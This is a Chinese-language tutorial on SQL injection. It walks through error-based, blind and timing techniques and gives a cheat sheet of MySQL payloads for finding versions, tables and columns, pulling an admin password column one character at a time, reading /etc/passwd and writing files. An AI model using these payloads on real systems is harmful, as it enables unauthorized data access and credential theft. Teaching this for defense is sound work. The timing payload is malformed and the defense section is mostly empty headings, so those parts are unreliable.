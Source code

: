 # SQL Injection

## 简介

SQL Injection，即SQL注入，是指攻击者利用服务端对用户输入处理的漏洞，输入一些SQL代码，通过闭合引号等手段使服务器将其作为SQL语句而执行，从而造成攻击者对目标数据库的非授权访问，可能产生数据泄露、损毁、篡改等。

## 姿势

### 错误回显注入

如果Web服务器开启了错误回显，通过对输入内容的报错回显可以推理SQL逻辑从而很容易构造Payload。

### 盲注

多数时候Web服务器并不会提供错误的回显，这时候我们需要借用盲注的技巧。

在盲注的情况下，攻击者需要一种手段来确认输入的Payload所产生的影响，而观察页面的变化是最常用的参照，比如以下Payload：

```js
业务URL：http://example.com/news.php?id=10
SQL逻辑：SELECT title, description, body FROM news WHERE id = 10

攻击Payload: ?id=10 and 1=2，造成查询为空，页面可能为空
```

当然以上Payload显示的页面异常也有可能是服务端检测到了非法Payload而做了处理的结果，所以确认注入点还需要后面的步骤。

```js
?id = 10 and 1=1返回页面正常说明确实有问题。
```

### Timing Attack

通过注入一些执行起来花费时间的SQL语句，观察Web请求的响应时间变化也可以判断是否存在SQL注入漏洞。

常用的函数：

MySQL：

```
benchmark(times,function)，benchmark某个函数function times次数
如benchmark(1000000, encode('hello','goodbye'))
sleep(seconds)，休眠seconds秒。
```

举例一个Payload：

```
10 union select if(substring(current,1,1)=char(119),benchmark(5000000,md5(1)) from (select database() as current) as tbl;
```

## 数据库攻击技巧

### 便利函数

database\(\) - 返回当前数据库名。

system\_user\(\) - 返回数据库的系统用户。

current\_user\(\) - 返回当前用户身份。

version\(\) - 数据库版本号。

### 常见技巧

猜解数据库版本：?id = 5 and substring\(@@version,1,1\)=4

判断表是否存在：?id = 5 union all select 1,2,3 from 表名

判断表中某列是否存在：?id = 5 union all select 1,2,列名 from 某表

具体猜解列中数据：?id = 5 and ascii\(substring\(\(select passwd from admin limit 0,1\),1,1\)&gt;64\) **二分法**

读取文件：?id = 5 union select 1,2,load\_file\('/etc/passwd'\) **需要读权限**

写文件：?id = 5 union select ... into outfile '/file' 或者 into dumpfile 'file'，dumpfile相比outfile更适合二进制文件。

### 攻击存储过程

### 编码利用

### 流程

### 防御

#### 使用预编译语句

#### 使用存储过程

#### 检查数据类型

#### 使用安全的函数

各种Web语言都会实现一些编码函数，帮助对抗有可能出现的攻击，比如`addslashes()`，`mysqlrealescape`_`string()`_以及`mysqlescapestring`等等。中间函数考虑到数据库连接的编码，因此相比其他两种比较不可能出现款字节注入漏洞。

